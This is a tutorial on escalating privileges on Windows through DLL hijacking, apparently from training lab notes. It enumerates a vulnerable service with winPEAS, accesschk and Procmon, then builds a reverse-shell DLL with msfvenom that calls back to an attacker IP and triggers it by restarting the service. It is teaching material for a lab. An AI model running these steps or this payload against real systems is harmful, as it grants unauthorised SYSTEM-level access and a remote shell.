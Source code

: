 A more common misconfiguration that can beused to escalate privileges is if a DLL is missing from the system, and our user has write access to a directory within the PATH that Windows searchs for DLLs in.
Unfortunately, initial detection of vulnerable services is difficult, and often the entire process is very manual. 

1. Use winPEAS to enumerate non-Windows services:
```cmd
> .\winPEASany.exe quiet services info
```
2. Start by enumerating which of these services our user has stop and start access to:
```cmd
> accesschk.exe /accepteula -uvqc user dllsvc
R  dllsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```
3. The "dllsvc" service is vulnerable to DLL hijacking. According to the winPEAS output, the service runs the dllhijackservice.exe executable. We can confirm this manually:
```cmd
> sc qc dllsvc

SERVICE_NAME: dllsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DLL Hijack Service\dllhijackservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DLL Hijack Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
Note the BINARY_PATH_NAME and the SERVICE_START_NAME. 
4. Run Procmon64.exe wiht administrator privileges. Stop capture and clear logs. Press Ctrl+L to open the filter menu
5. Add a new filter on the Process Name matching dllhijackservice.exe
6. On the main screen, deselect registry activity and network activity
7. Start the service:
```cmd
> net start dllsvc
```
8. Back in Procmon, note that a number of "NAME NOT FOUND" errors appear in Result, associted with the hijackme.dll file
9. At some point, Windows tries to find the file in the C:\Temp directory, which as we found earlier, is writeable by our user.
10. On Kali, generate a reverse shell DLL named hijackme.dll:
```bash
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.11 LPORT=53 -f dll -o hijackme.dll
```
11. Copy the DLL to the Windows VM and into the C:\Temp directory. Start a listener on Kali and then stop/start the service to trigger the exploit
```cmd
> net stop dllsvc
> net start dllsvc
```
